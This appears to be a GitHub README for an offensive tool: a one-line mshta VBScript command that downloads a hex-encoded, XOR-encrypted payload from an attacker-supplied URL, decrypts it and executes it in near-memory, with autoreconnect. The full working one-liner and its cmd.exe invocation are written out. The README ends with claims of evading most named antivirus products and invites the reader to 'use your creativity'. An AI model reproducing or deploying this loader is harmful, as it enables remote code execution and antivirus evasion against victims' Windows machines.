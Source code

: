 # MSHTA VBScript Download & Execute
Downloads, decode, decrypt and executes a VBScript using cmd and mshta
```
'=========================================='
'                 Features                 '  
'++++++++++++++++++++++++++++++++++++++++++'
' [*] Autoreconnect                        '
' [*] Hexadecimal encoded payload (UTF8)   '
' [*] Encrypted payload                    '
' [*] In (**almost) memory execution       '
'++++++++++++++++++++++++++++++++++++++++++'
'<---------------------------------------->'
'<========================================>'
'<---------------------------------------->'
'mshta.exe one line command                '
'mshta.exe maximum command length   : 487  '
'Script length with double quotes   : 330  '
'<---------------------------------------->'
'=========================================='

**mshta.exe will save in a temp file your decrypted payload and after the execution the temp file will be deleted
```
## One line command
```
"On Error Resume Next:Set a=CreateObject(""MSXML2.ServerXMLHTTP.6.0""):a.setOption 2,13056:while(Len(b)=0):a.open""GET"",""LINK_TO_YOUR_PAYLOAD"",False:a.send:b=a.responseText:wend:k=""PAYLOAD_DECRYPT_KEY"":for i=0to Len(b)-1Step 2:c=c&Chr(Asc(Chr(""&H""&Mid(b,i+1,2)))xor Asc(Mid(k,((i/2)mod Len(k))+1,1))):Next:ExecuteGlobal c:"
```

## Example
```
(cmd.exe): mshta vbscript:execute("ONE LINE COMMAND")(window.close)
```
![Alt Text](https://i.imgur.com/9wuCs1v.gif)

## Evasion Test
Tested on **Windows7/10** x64 with: *Avira*, *AVG*, *Avast*, *ESET32*, *Kaspersky*, *Panda*, *BitDefender* and *Windows Defender* (Win7/10) to launch a more *expansive malicous payload*, the only one who blocked was **BitDefender**.

## Use your creativity ;)
